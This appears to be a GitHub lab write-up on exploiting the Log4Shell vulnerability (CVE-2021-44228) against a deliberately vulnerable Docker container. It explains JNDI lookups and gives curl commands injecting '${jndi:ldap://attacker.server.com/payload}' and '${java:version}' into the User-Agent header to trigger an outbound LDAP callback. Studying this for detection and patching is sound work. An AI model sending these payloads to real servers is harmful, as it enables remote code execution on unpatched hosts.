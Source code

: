 # Log4J / CVE-2021-44228
    Versions: All versions from 2.0-beta9 to 2.16


CVE-2021-44228 or Log4Shell is a vulnerability found in the Java library with the maximum criticality score of CVSS 10/10. The library named Log4j got this rating because besides being very popular, it grants access to Remote Code Execution (RCE).

It is still used by many companies of all types and sizes and even after months of its discovery being made public, a lot of hosts still haven't updated their software. Here in this article, I present a way to run the exploit so that you can understand the vulnerability and prevent it from being exploited on your system and also explain a little about your application.

This vulnerability creates an active connection to LDAP, loading a Java Class or Jar that would be a malicious file directly into memory, causing the execution context to be ready. With Java already being interpreted as binary, it would already be executed and with that, accessing the memory. And accessing the memory, grants us access to databases, files... anything we want to do.

Your first targets are usually data entry points like username and password logins, http headers like User-Agent, X-Forwarded-For and others. Basically anywhere the user can provide data.

To perform this exploit, I used a vulnerable and easy-to-apply LAB with Log4J available in this [GIT](https://github.com/leonjza/log4jpwn).

![docker](https://user-images.githubusercontent.com/66689576/160430502-abc2c99e-7a65-48d5-913d-f165442ef757.png)

With docker running on port 8080, we can start to identify if the server is vulnerable to log4shell or not.
It may be interesting to check the version of Log4J, if there is a log where you can insert some information that the application does not consider as a string, as well as an endpoint with some protocol such as HTTP for example, which may allow sending a malicious string.

At first, I will use **curl** to send a request to the server, requesting the java version from the User-Agent.

    curl -v -H 'User-Agent: ${java:version}' '172.17.0.1:8080/'

Making the server run it: 

![ua](https://user-images.githubusercontent.com/66689576/160430578-9caa5e17-129b-4bc3-a7fd-1e574ac4fc2e.png)

## Execution

Now we can get a little better look at what's to come. If in our request, we use the **JNDI** (Java Naming and Directory Interface) protocol, it becomes possible to execute some malicious payload inside the server, thus triggering the log4j vulnerability, which, after execution, makes the server returns us a Java classpath, which was injected earlier.

This injected payload when triggered, gives the attacker access to execute arbitrary code. 

	curl -v -H 'User-Agent: ${jndi:ldap://attacker.server.com/payload}' '172.17.0.1:8080/'
	
JNDI is an independent API that gives access to directory services, bringing objects or data to the client side through information (name). Its two basic functions are to associate a name with a resource and to find a resource by its name. 

When we make a request to the User-Agent, sending what would be the payload, through Curl to the server, we are acting within the network itself, being safer to detect the vulnerability.

![curlTrue](https://user-images.githubusercontent.com/66689576/162072699-82285f21-70d6-4668-b94c-96a1ab4eb771.png)

Here we can see that a connection was established with my machine, when the server (docker) executed the payload I sent to it, thus releasing the opportunity for an RCE.

![nc22222](https://user-images.githubusercontent.com/66689576/162073080-26e07482-377c-43d7-afd7-b8009d32631e.png)

Server-side view running the payload:

![logLog](https://user-images.githubusercontent.com/66689576/162073340-6db1bf73-975d-47b7-97d7-011c7c7c76c8.png)

## References

**Mitre**
>https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228

**Curl**
>https://curl.se/docs/manpage.html

**Docker LAB**
>https://github.com/leonjza/log4jpwn

**Luna Sec**
>https://www.lunasec.io/docs/blog/log4j-zero-day/

That's it :)
